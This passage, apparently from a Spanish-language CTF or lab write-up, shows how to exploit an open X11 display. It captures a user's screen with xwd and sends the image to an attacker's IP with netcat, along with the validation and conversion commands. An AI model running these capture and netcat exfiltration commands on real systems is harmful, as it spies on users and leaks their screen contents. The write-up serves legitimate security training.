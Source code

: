 
Una vez hecho esto, se puede volver a ejecutar el comando de validación y se puede observar que tiene una respuesta que ya no refleja información. Por lo tanto, se puede ver que el ataque es **factible**.



```bash
xdpyinfo -display :0 | head

name of display:    :0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    12013000
X.Org version: 1.20.13
maximum request size:  16777212 bytes
motion buffer size:  256
bitmap unit, bit order, padding:    32, LSBFirst, 32
image byte order:    LSBFirst
number of supported pixmap formats:    7
```
{: .nolineno}



Gracias a esta validación, se sabe que se puede tomar un **screenshot** del usuario con el siguiente comando.


```bash
xwd -root -screen -silent -display :0 > screenshot.xwd 
```
{: .nolineno}


Y para terminar, se debe transferir la imagen generada hacia la máquina del atacante para poder visualizarlo. Esto se hace con ayuda de **netcat**.


```bash
nc 10.10.14.14 8888 < screenshot.xwd
```
{: .nolineno}


```bash
nc -lvp 8888 > screenshot.xwd
```
{: .nolineno}


Y se convierte la imagen en un formato que se pueda visualizar, esto gracias al comando `convert` hacia una imagen **.png**.


```bash
convert screenshot.xwd screenshot.png
```
{: .nolineno}


```bash
open screenshot.png
```
{: .nolineno}
